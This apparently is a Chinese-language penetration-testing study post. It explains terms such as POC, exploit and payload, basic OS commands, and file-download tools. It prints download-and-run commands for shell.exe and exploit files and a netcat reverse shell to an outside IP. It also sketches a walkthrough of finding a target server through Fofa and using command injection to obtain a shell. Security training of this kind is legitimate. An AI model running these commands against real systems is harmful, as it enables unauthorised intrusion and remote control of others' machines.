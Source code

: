 ```yaml
---
layout: post
title: DAY02
author: PWN022
tags:
- Network security
date: 2023-12-26 08:50 +0800
toc:  true
---
```


# Network security

# DAY01操作系统&文件下载&反弹shell&防火墙绕过

知识点：

1、名词解释-渗透测试-漏洞&攻击&后门&代码&专业词

2、必备技能-操作系统-用途&命令&权限&用户&防火墙

3、必备技能-文件下载-缘由&场景&使用-提权&后渗透

4、必备技能-反弹命令-缘由&场景&使用-提权&后渗透

前后端，POC/EXP，Payload/Shellcode，后门/Webshell，木马/病毒，反弹，回显，跳板，黑白盒测试，暴力破解，社会工程学，撞库，ATT&CK等

> 参考：
>
> https://www.cnblogs.com/sunny11/p/13583083.html
>
> https://forum.ywhack.com/bountytips.php?tools
>
> https://blog.csdn.net/weixin_43303273/article/details/83029138

> 名词解释
>
> POC:全称"Proof of Concept",中文'概念验证',常指一段漏洞证明的代码。
>
> EXP: 全称"Exploit",中文"利用,指利用系统漏洞进行攻击的动作。
>
> Payload：中文"有效载荷",指成功exploit之后，真正在目标系统执行的代码或指令。
>
> Shellcode: 简单翻译"shell代码"，是Payload的一种，由于其建立正向/反向shell而得名。

## 基础案例1:操作系统-用途&命令&权限&用户&防火墙

1.个人计算机&服务器用机：

一般个人计算机大部分为：windows11、windows10、windows7.

服务器用机：windows server 2008、2012、2016

Linux: unbutu、centos

2.windows&Linux常见命令

```
Windows：dir //查看当前目录 ipconfig //查看IP地址

Linux：pwd//查看当前目录 ifconfig//查看IP地址
```

3.文件权限&服务权限&用户权限

```
windows:

whoami//查看当前用户的权限

system(系统最高权限）>administrator
```

```
Linux:

id//查看当前用户权限

system(系统最高权限) >root
```

4.自带防火墙出站&入站规则策略协议

windows:

**Windows Defender(默认自带的防火墙)**

出站的检测很宽容 对入站很严格

Linux:

**iptables(默认自带的防火墙)**

## 实用案例1：文件上传下载-解决无图形化&解决数据传输

Linux：

```
wget http://xxx.com/shell.exe //去下载文件

curl http://xxx.com/shell.exe -o shell.exe //下载下来 加-o 是重命名为 不加 默认直接下载下来

Python -m -SimpleHTTPServer 8080 //开放8080端口为http服务器

python3 -m http.server 8080

```

Windows：

```
PowerShell: powershell.exe -Command "Invoke-WebRequest -Uri http://127.0.0.1:8080/ms10-051.exe -OutFile exploit.exe"

CMD: certutil.exe -urlcache -split -f http://127.0.0.1:8080/ms10-051.exe exploit.exe

IPC$: copy \127.0.0.1\c$\ms10-051.exe C:\exploit.exe
```

## 实用案例2：反弹Shell命令-解决数据回显&解决数据通讯

useradd 用户名 passwd 用户名

测试Linux系统添加用户或修改密码命令交互回显问题

结合案例1：防火墙绕过-正向连接&反向连接&内网服务器

正向：控制端主动连接被控端

反向：被控端发起连接到控制端

1、内网：**//netcat**

内网 -> hesy

hesy ！-> 内网

2、防火墙:

hesy <->aliyun //正常通讯

hesy防火墙 ->aliyun

aliyun !-> hesy防火墙

nc -e cmd 47.75.121.155 5577 //把当前的cmd权限移交到指定IP

nv -lvvp 5577 /去监听本地5577端口 反弹shell

只能内网的IP主机去反弹shell给外网有IP的服务器，外网IP没办法反弹shell给一台内网的主机.(这就需要流量转发）

正向连接:

攻击者作为客户端去连接目标主机服务器端口。相当于是攻击者主动去找服务器

反向连接:

目标主机作为客户端去主动访问攻击者的端口。相当于目标主机是客户端，攻击者是服务端。

## 综合案例2：Fofa拿下同行Pikachu服务器

文件&反弹shell:

主要利用点在于命令执行这个漏洞，通过命令执行，让目标去下载外网上我们的nc.exe 然后通过 nc -e cmd IP 8888 主动去连接我们的端口。获得目标主机的shell（对于出站的流量，防火墙一般都很宽松）

## day01实战:反弹shell

查找案例(受害主机)：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.01.13.png" alt="截屏2023-12-24 15.01.13" style="zoom:50%;" />

查询操作系统：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.02.13.png" alt="截屏2023-12-24 15.02.13" style="zoom: 67%;" />

相对系统的文件下载命令：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.03.13.png" alt="截屏2023-12-24 15.03.13" style="zoom:80%;" />

通过输入框输入命令：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.04.13.png" alt="截屏2023-12-24 15.04.13" style="zoom:67%;" />

反弹到端口：命令实际上是n.exe -e cmd xxx因为下载重命名时是n.exe

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.05.13.png" alt="截屏2023-12-24 15.05.13" style="zoom:67%;" />

启动外网的端口监听：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.06.13.png" alt="截屏2023-12-24 15.06.13" style="zoom:67%;" />

拿到服务器：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00/Ns/my_screenshot/%E6%88%AA%E5%B1%8F2023-12-24%2015.07.13.png" alt="截屏2023-12-24 15.07.13" style="zoom: 67%;" />
